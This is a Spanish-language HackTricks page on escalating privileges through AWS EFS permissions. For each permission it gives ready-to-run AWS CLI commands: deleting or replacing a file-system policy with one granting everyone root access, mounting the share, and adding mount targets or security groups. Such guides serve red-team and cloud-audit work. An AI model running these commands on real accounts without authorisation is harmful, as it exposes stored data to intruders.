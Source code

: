 # AWS - EFS Privesc

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## EFS

Más **información sobre EFS** en:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Recuerda que para montar un EFS necesitas estar en una subred donde el EFS esté expuesto y tener acceso a él (grupos de seguridad). Si esto está sucediendo, por defecto, siempre podrás montarlo, sin embargo, si está protegido por políticas de IAM necesitas tener los permisos adicionales mencionados aquí para acceder a él.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Con cualquiera de esos permisos, un atacante puede **cambiar la política del sistema de archivos** para **darte acceso** a él, o simplemente **eliminarla** para que se otorgue el **acceso predeterminado**.

Para eliminar la política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para cambiarlo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Con este permiso, un atacante podrá **montar el EFS**. Si el permiso de escritura no se otorga por defecto a todos los que pueden montar el EFS, solo tendrá **acceso de lectura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Los permisos adicionales `elasticfilesystem:ClientRootAccess` y `elasticfilesystem:ClientWrite` pueden utilizarse para **escribir** dentro del sistema de archivos después de montarlo y para **acceder** a ese sistema de archivos **como root**.

**Impacto Potencial:** Escalada de privilegios indirecta al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:CreateMountTarget`

Si un atacante se encuentra dentro de una **subred** donde **no existe un punto de montaje** del EFS. Podría simplemente **crear uno en su subred** con este privilegio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Escalada de privilegios indirecta al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

En un escenario donde un atacante descubre que el EFS tiene un objetivo de montaje en su subred pero **ningún grupo de seguridad permite el tráfico**, podría simplemente **cambiar eso modificando los grupos de seguridad seleccionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indirecto localizando información sensible en el sistema de archivos.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
